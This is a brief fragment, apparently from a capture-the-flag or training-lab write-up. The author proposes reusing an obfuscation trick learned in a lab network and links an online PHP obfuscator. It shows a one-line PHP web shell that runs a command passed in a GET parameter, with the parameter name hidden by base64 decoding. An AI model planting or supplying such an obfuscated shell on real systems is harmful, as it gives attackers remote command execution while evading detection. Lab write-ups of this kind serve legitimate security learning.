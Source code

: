 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```

